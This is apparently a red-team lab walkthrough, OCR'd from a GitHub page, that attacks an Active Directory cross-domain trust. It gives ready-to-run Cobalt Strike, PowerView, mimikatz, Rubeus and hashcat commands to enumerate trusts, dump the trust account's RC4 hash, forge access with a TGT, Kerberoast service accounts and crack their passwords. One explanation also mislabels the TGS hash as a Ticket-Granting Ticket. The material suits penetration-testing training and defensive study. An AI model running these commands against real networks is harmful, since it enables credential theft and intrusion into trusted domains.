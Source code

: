 1. **Import PowerView Module:**
   Perform these things in a beacon of DC in the domain `hackr.games`.
   ```
   powershell-import /Users/ahmedpinger/Documents/Tools/PowerSploit/Recon/PowerView.ps1
   ```
   This command imports the PowerView module, which is used for Active Directory enumeration.

2. **Get Domain Trusts:**
   ```
   powerpick Get-DomainTrust
   ```
   This command retrieves information about domain trusts within the current domain. It helps identify trusted domains.

### Dumping RC4 of Domain Trust:

1. **Dump RC4 Hash of Domain Trust:**
   ```
   mimikatz lsadump::trust /patch
   ```
   This command uses Mimikatz to dump the RC4 hash of the domain trust. RC4 is a symmetric stream cipher used for encrypting network traffic.

### Obtaining TGT for Trust Account:

1. **Request TGT for Trust Account:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe asktgt /user:HACKR$ /domain:kikrr.local /rc4:19fc7d52d877f61a78c4a9637fefffa6 /nowrap
   ```
   This command requests a Ticket Granting Ticket (TGT) for the trust account `HACKR$` in the domain `kikrr.local` using the obtained RC4 hash.

2. **Create NetOnly Ticket with TGT:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:kikrr.local /username:HACKR$ /password:adsf /ticket:doI[snip]FSD
   ```
   This command creates a NetOnly ticket for command execution in the `kikrr.local` domain using the obtained TGT. Now as we have the ticker in out key list, now we have somewhat tiny access to the domain `kikrr.local` and from this access we can perform some enumeration.

### Kerberoasting and Password Cracking:

1. **Identify Kerberoastable Accounts:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe kerberoast /simple /domain:kikrr.local
   ```
   This command identifies accounts vulnerable to Kerberoasting in the `kikrr.local` domain.

2. **Crack Kerberos Ticket-Granting Ticket (TGS) Hash:**
   ```
   sudo hashcat -m 13100 hash.txt ~/Downloads/wordlists/rockyou.txt -O
   ```
   This command uses Hashcat to crack the Kerberos TGS hash, typically obtained through Kerberoasting, using a password dictionary.
